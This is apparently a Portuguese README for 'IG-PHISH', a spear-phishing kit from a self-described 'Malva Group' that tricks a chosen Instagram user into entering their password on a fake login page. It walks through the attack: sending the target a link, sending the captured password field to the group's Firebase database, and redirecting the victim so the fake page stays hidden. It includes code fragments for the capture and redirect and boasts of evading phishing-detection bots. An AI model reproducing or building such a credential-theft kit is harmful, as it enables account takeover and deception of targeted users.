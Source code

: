 # IG-PHISH v1.0 by Malva Group

v1.0 - Atualizado em 07/09/2024


![ig.png](https://i.postimg.cc/7PQvxr7M/ig.png)

<!--
Para apagar a imagem acima do servidor onde ela está hospedada, acesse:
https://postimg.cc/delete/tc80740K/4231bd1d
-->


## Resumo

O "IG-PHISH" é um repositório que carrega códigos do tipo [__*Spear Phishing*__](https://www.kaspersky.com.br/resource-center/definitions/spear-phishing). Seu propósito é conseguir a senha de acesso do aplicativo Instagram de um alvo específico, o enganando com uma página falsa de captura de dados, muito parecida com a original.

> Necessário ter conhecimento em Front-End.

> Útil: [acesse aqui](https://postimg.cc/gallery/8GGy58z/af531079) a galeria de imagens da página `pageLog.html`

## Como funciona?

Pequena explicação em bullet points.

- O alvo (escolhido a dedo) recebe uma mensagem (em qualquer midia social) contendo um link.

        let alvoInfo = firebase.database().ref("Malva Group").child("App_IG").child("@usernamedoinsta");

    > Em `@usernamedoinsta`, ficará o @ do alvo.

- Ao clicar no link o usuário é levado a uma suposta página de confirmação do Instagram, alegando que como ele irá sair para um site externo, precisa fazer um login de identificação.

- Ao fazer a suposta identificação, ele acaba enviando os dados contidos no campo `p455` para um banco de dados de propriedade do __Malva Group__.

        let passeLog = p455Element.value.trim();
        coletarDoAlvo(passeLog);

    > Envia os dados do campo `p455` para o banco de dados.

- Logo após um script será executado, fazendo com que o browser salve a informação de que a página falsa de login foi aberta, e após o alvo será direcionado para uma página de escolha do grupo (vamos chamá-la de `página 2`).

        const specificLink = "link-escolhido.com/";
        const redirectKey = "redirectTo";

    > Redireciona para o link da `página 2`

- Como o browser salvou a informação que a página de falso login foi aberta, ele não irá abri-la novamente, e sim abrir a `página 2` instantaneamente.

    > Detalhe: caso o alvo limpe o `cache` do browser, a página de login inicial voltará a ser exibida.


## Feito para ser útil

Nós do __Malva Group__, fizemos de tudo para fazer os códigos cumprirem a sua função principal, desde o design até a preocupação com bots de verificação de phishing, garantindo maior tempo no ar e a maior taxa de sucesso dentre outros códigos de *Phishing* disponíveis na *darknet*.

## Veja mais sobre Spear Phishing

- <https://www.trendmicro.com/pt_br/what-is/phishing/types-of-phishing.html>
- <https://www.serasaexperian.com.br/conteudos/prevencao-a-fraude/o-que-e-spear-phishing>
- <https://www.mundoconectado.com.br/corporativo/grupo-russo-ligado-ao-kremlin-faz-ataque-phishing-global/>
- <https://www.mundoconectado.com.br/corporativo/grupo-russo-ligado-ao-kremlin-faz-ataque-phishing-global/>

---

© 2024 Malva Group, LLC